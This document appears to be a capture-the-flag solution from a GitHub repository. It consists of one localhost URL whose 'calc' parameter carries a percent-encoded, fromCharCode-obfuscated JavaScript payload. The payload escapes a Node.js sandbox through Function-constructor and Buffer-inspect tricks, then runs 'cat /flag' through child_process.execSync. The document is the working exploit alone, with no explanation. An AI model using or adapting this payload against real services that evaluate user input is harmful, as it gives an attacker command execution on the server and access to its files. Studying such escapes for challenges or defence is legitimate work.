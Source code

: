 ```
http://127.0.0.1:3000/?calc=%28%28%4d%61%74%68%29%3d%3e%28%4d%61%74%68%3d%4d%61%74%68%2e%63%6f%6e%73%74%72%75%63%74%6f%72%2c%4d%61%74%68%3d%4d%61%74%68%2e%63%6f%6e%73%74%72%75%63%74%6f%72%28%4d%61%74%68%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%31%31%38%2c%39%37%2c%31%31%34%2c%33%32%2c%31%31%34%2c%31%30%31%2c%31%31%35%2c%33%32%2c%36%31%2c%33%32%2c%34%30%2c%31%30%32%2c%31%31%37%2c%31%31%30%2c%39%39%2c%31%31%36%2c%31%30%35%2c%31%31%31%2c%31%31%30%2c%33%32%2c%34%30%2c%34%31%2c%33%32%2c%31%32%33%2c%31%30%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%31%31%36%2c%31%31%34%2c%31%32%31%2c%33%32%2c%31%32%33%2c%33%32%2c%31%31%34%2c%31%30%31%2c%31%31%33%2c%31%31%37%2c%31%30%35%2c%31%31%34%2c%31%30%31%2c%34%30%2c%33%39%2c%39%39%2c%31%30%34%2c%31%30%35%2c%31%30%38%2c%31%30%30%2c%39%35%2c%31%31%32%2c%31%31%34%2c%31%31%31%2c%39%39%2c%31%30%31%2c%31%31%35%2c%31%31%35%2c%33%39%2c%34%31%2c%34%36%2c%31%30%31%2c%31%32%30%2c%31%30%31%2c%39%39%2c%38%33%2c%31%32%31%2c%31%31%30%2c%39%39%2c%34%30%2c%33%34%2c%31%30%35%2c%31%30%30%2c%31%30%31%2c%39%37%2c%33%34%2c%34%31%2c%33%32%2c%31%32%35%2c%33%32%2c%39%39%2c%39%37%2c%31%31%36%2c%39%39%2c%31%30%34%2c%33%32%2c%34%30%2c%31%30%31%2c%34%31%2c%33%32%2c%31%32%33%2c%33%32%2c%31%32%35%2c%33%32%2c%33%32%2c%31%30%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%31%30%38%2c%31%30%31%2c%31%31%36%2c%33%32%2c%39%38%2c%31%31%37%2c%31%30%32%2c%31%30%32%2c%31%30%31%2c%31%31%34%2c%33%32%2c%36%31%2c%33%32%2c%31%32%33%2c%31%30%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%31%30%34%2c%31%30%31%2c%31%32%30%2c%38%33%2c%31%30%38%2c%31%30%35%2c%39%39%2c%31%30%31%2c%35%38%2c%33%32%2c%34%30%2c%34%31%2c%33%32%2c%36%31%2c%36%32%2c%33%32%2c%33%34%2c%33%34%2c%34%34%2c%31%30%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%31%30%39%2c%39%37%2c%31%30%33%2c%31%30%35%2c%39%39%2c%35%38%2c%33%32%2c%31%32%33%2c%31%30%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%31%30%33%2c%31%30%31%2c%31%31%36%2c%33%32%2c%39%31%2c%38%33%2c%31%32%31%2c%31%30%39%2c%39%38%2c%31%31%31%2c%31%30%38%2c%34%36%2c%31%30%32%2c%31%31%31%2c%31%31%34%2c%34%30%2c%33%34%2c%31%31%30%2c%31%31%31%2c%31%30%30%2c%31%30%31%2c%31%30%36%2c%31%31%35%2c%34%36%2c%31%31%37%2c%31%31%36%2c%31%30%35%2c%31%30%38%2c%34%36%2c%31%30%35%2c%31%31%30%2c%31%31%35%2c%31%31%32%2c%31%30%31%2c%39%39%2c%31%31%36%2c%34%36%2c%39%39%2c%31%31%37%2c%31%31%35%2c%31%31%36%2c%31%31%31%2c%31%30%39%2c%33%34%2c%34%31%2c%39%33%2c%34%30%2c%34%31%2c%33%32%2c%31%32%33%2c%31%30%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%31%31%36%2c%31%30%34%2c%31%31%34%2c%31%31%31%2c%31%31%39%2c%33%32%2c%31%30%32%2c%33%32%2c%36%31%2c%36%32%2c%33%32%2c%31%30%32%2c%34%36%2c%39%39%2c%31%31%31%2c%31%31%30%2c%31%31%35%2c%31%31%36%2c%31%31%34%2c%31%31%37%2c%39%39%2c%31%31%36%2c%31%31%31%2c%31%31%34%2c%34%30%2c%33%34%2c%31%31%34%2c%31%30%31%2c%31%31%36%2c%31%31%37%2c%31%31%34%2c%31%31%30%2c%33%32%2c%31%31%32%2c%31%31%34%2c%31%31%31%2c%39%39%2c%31%30%31%2c%31%31%35%2c%31%31%35%2c%33%34%2c%34%31%2c%34%30%2c%34%31%2c%35%39%2c%31%30%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%31%32%35%2c%31%30%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%31%32%35%2c%31%30%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%31%32%35%2c%35%39%2c%31%30%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%31%31%36%2c%31%31%34%2c%31%32%31%2c%33%32%2c%31%32%33%2c%31%30%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%36%36%2c%31%31%37%2c%31%30%32%2c%31%30%32%2c%31%30%31%2c%31%31%34%2c%34%36%2c%31%31%32%2c%31%31%34%2c%31%31%31%2c%31%31%36%2c%31%31%31%2c%31%31%36%2c%31%32%31%2c%31%31%32%2c%31%30%31%2c%34%36%2c%31%30%35%2c%31%31%30%2c%31%31%35%2c%31%31%32%2c%31%30%31%2c%39%39%2c%31%31%36%2c%34%36%2c%39%39%2c%39%37%2c%31%30%38%2c%31%30%38%2c%34%30%2c%39%38%2c%31%31%37%2c%31%30%32%2c%31%30%32%2c%31%30%31%2c%31%31%34%2c%34%34%2c%33%32%2c%34%38%2c%34%34%2c%33%32%2c%31%32%33%2c%33%32%2c%39%39%2c%31%31%37%2c%31%31%35%2c%31%31%36%2c%31%31%31%2c%31%30%39%2c%37%33%2c%31%31%30%2c%31%31%35%2c%31%31%32%2c%31%30%31%2c%39%39%2c%31%31%36%2c%35%38%2c%33%32%2c%31%31%36%2c%31%31%34%2c%31%31%37%2c%31%30%31%2c%33%32%2c%31%32%35%2c%34%31%2c%35%39%2c%31%30%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%31%32%35%2c%33%32%2c%39%39%2c%39%37%2c%31%31%36%2c%39%39%2c%31%30%34%2c%33%32%2c%34%30%2c%31%30%31%2c%34%31%2c%33%32%2c%31%32%33%2c%31%30%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%31%31%34%2c%31%30%31%2c%31%31%36%2c%31%31%37%2c%31%31%34%2c%31%31%30%2c%33%32%2c%31%30%31%2c%34%30%2c%34%30%2c%34%31%2c%33%32%2c%36%31%2c%36%32%2c%33%32%2c%34%38%2c%34%31%2c%34%36%2c%31%30%39%2c%39%37%2c%31%30%35%2c%31%31%30%2c%37%37%2c%31%31%31%2c%31%30%30%2c%31%31%37%2c%31%30%38%2c%31%30%31%2c%34%36%2c%31%31%34%2c%31%30%31%2c%31%31%33%2c%31%31%37%2c%31%30%35%2c%31%31%34%2c%31%30%31%2c%34%30%2c%33%39%2c%39%39%2c%31%30%34%2c%31%30%35%2c%31%30%38%2c%31%30%30%2c%39%35%2c%31%31%32%2c%31%31%34%2c%31%31%31%2c%39%39%2c%31%30%31%2c%31%31%35%2c%31%31%35%2c%33%39%2c%34%31%2c%34%36%2c%31%30%31%2c%31%32%30%2c%31%30%31%2c%39%39%2c%38%33%2c%31%32%31%2c%31%31%30%2c%39%39%2c%34%30%2c%33%34%2c%39%39%2c%39%37%2c%31%31%36%2c%33%32%2c%34%37%2c%31%30%32%2c%31%30%38%2c%39%37%2c%31%30%33%2c%33%34%2c%34%31%2c%35%39%2c%31%30%2c%33%32%2c%33%32%2c%33%32%2c%33%32%2c%31%32%35%2c%31%30%2c%33%32%2c%33%32%2c%31%32%35%2c%34%31%2c%34%30%2c%34%31%2c%35%39%2c%31%31%34%2c%31%30%31%2c%31%31%36%2c%31%31%37%2c%31%31%34%2c%31%31%30%2c%33%32%2c%31%31%34%2c%31%30%31%2c%31%31%35%29%29%29%29%28%4d%61%74%68%2b%31%29%28%29
```
